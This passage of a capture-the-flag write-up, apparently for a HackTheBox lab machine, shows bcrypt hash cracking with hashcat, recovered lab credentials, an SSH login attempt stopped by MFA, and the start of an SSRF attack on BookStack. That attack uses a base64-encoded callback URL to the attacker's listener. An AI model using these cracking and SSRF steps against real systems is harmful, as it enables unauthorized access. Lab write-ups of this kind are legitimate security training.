 We got two bcrypt hashes. Let’s attempt to crack it, remove the space after the username:

```bash
.\hashcat.exe -m 3200 --username wordlists\admin_hash.txt wordlists\rockyou.txt
.\hashcat.exe -m 3200 --username wordlists\admin_hash.txt --show

bob:$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader
```

We now have a valid user. Let’s log on. We see two passwords:

![image.png]({{ site.baseurl }}/assets/checker/image%204.png)

![image.png]({{ site.baseurl }}/assets/checker/image%205.png)

```bash
ssh access:
reader:hiccup-publicly-genesis

bookstack:
bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD
```

Let’s also see if we can ssh in as bob:

```bash
ssh reader@10.10.11.56

(reader@10.10.11.56) Verification code: 

#Seem to be MFA
```

Let’s log on to book stack.

![image.png]({{ site.baseurl }}/assets/checker/image%206.png)

![image.png]({{ site.baseurl }}/assets/checker/image%207.png)

Going back to this exploit:  https://fluidattacks.com/advisories/imagination

Server-Side Request Forgery (SSRF) is a security vulnerability that allows an attacker to manipulate a server into making unintended HTTP requests to internal or external resources. This happens when a web application accepts user input to construct URLs for server-side requests without proper validation or sanitization. The attacker can exploit this to access internal systems, sensitive data, or external services that the server can reach but the attacker cannot directly access.

We can create a book and get book stack to interact with a remote server. To test it out, first we have to encode our payload of our malicious server:

```bash
http://10.10.16.2:8001/TESTING

echo -n "http://10.10.16.2:8001/TESTING" | base64

aHR0cDovLzEwLjEwLjE2LjI6ODAwMS9URVNUSU5H
```
